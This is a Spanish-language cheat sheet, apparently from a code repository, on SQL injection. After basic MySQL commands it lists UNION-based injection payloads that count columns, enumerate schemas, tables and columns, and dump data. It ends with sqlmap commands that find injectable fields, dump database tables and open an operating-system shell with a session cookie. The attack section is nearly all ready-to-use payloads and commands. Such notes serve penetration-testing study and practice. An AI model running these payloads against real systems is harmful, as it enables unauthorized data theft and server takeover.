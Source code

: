 # SQL INJECTION

### Comandos Basicos de MySQL

``CREATE DATABASE <NOMBRE_DB>;``

``SHOW DATABASES;``

``USE <NOMBRE_DB>;``

``CREATE TABLE <NOMBRE_TABLA>(COLUMNA1 TIPO, COLUMNA2 TIPO, COLUMNA3 TIPO);``

> Los tipos de campos dentro de las tablas son: int(32) = Numeros Enteros, varchar(32) = Caracteres, char(80), longtext

``SHOW TABLES;``

``DESCRIBE <NOMBRE_TABLA>;`` --> Ver Columnas de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA>;`` --> Muestra los datos de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA> WHERE <COLUMNA1>='DATO';`` --> Para filtrar por un dato especifico

``SELECT * FROM <NOMBRE_TABLA>;`` --> Muestra todos los datos de una Tabla

``CREATE USER 'NOMBRE'@'IP' IDENTIFIED BY 'PASSWORD';``

``GRANT ALL PRIVILEGES ON NOMBRE_DB.* TO 'USUARIO'@'IP';``

<br>

### Querys para SQL Injection

``valor' ORDER BY 100'-- -`` --> Ayuda a identificar el numero de columnas

``valor' UNION SELECT database()-- -``

``valor' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata -- -`` --> Si tiene una sola columna

``valor' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL FROM information_schema.schemata -- -`` --> Si se identifico que tiene varias columnas un NULL por cada columna

``valor' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='nombre_db' -- -``

``valor' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='nombre_db' AND table_name='tabla' -- -``

``valor' UNION SELECT GROUP_CONCAT(columna) FROM nombre_db.tabla -- -``

<br>

### Injeccion de SQL con SQLMAP

> Para el uso de SQLMAP se puede capturar una peticion POST y guardarla en un archivo .req o identificar los campos inyectables en una url

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --batch`` --> Para identificar rapidamente si es inyectable o no

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --dbs --batch`` --> Para listar bases de datos

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> --tables`` --> Para ver las tablas

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> --columns`` --> Para ver las columnas de una tabla

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> -C <col1,col2,col3> --dump`` --> Para volcar todos los campos de una tabla

<br>

> En SQLMAP tambien se puede usar la url directamente e incluso pasarle una cookie de sesion

``sqlmap -u "URL" --cookie="PHPSESSID=a8d127e.." --os-shell`` --> El parametro *--os-shell* permite abrir una shell interactiva del sistema operativo
